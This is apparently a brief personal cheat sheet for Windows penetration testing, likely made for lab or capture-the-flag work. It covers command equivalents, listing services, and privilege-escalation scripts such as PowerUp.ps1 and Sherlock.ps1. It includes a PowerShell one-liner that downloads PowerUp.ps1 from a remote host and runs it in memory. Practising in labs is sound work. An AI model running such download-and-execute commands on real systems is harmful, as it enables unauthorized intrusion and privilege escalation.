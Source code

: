 # Windows

## General
- `cat` = `type`

## Powershell
```
echo IEX ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.9:8000/PowerUp.ps1')) | powershell -noprofile -
```

## Services
- List all: `sc query state= all`

## Prev Escalation
- PowerUp.ps1
- Sherlock.ps1
